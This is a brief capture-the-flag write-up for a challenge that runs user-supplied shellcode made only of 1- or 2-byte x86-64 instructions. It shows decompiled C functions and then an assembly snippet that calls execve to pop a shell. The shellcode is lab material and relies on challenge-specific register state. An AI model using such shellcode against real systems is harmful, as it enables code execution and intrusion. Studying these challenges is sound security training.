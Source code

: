 The main of this CTF just invoke the play function:
```c
void game(void)
{
  alarm(0x3c);
  welcome();
  play();
  return;
}
```
The welcome() function give us a big hint in how to solve the challenge:
```c
void welcome(void)
{
  puts("Can you pop a shell with a shellcode made of 1 or 2 bytes instructions?");
  return;
}

```
The play() function instead just take the shellcode, check if it is made by 1 or 2 bytes instructions and if this is the case it will execute it.
This is a shellcode that can spawn a shell just with 1 or 2 bytes instructions:
```python
asm_code="""
pop rax
push rdx
pop rax
add al, 18
push rax
pop rdi
push 0x3b
pop rax
push 0
push 0
pop rsi
pop rdx
syscall
"""
```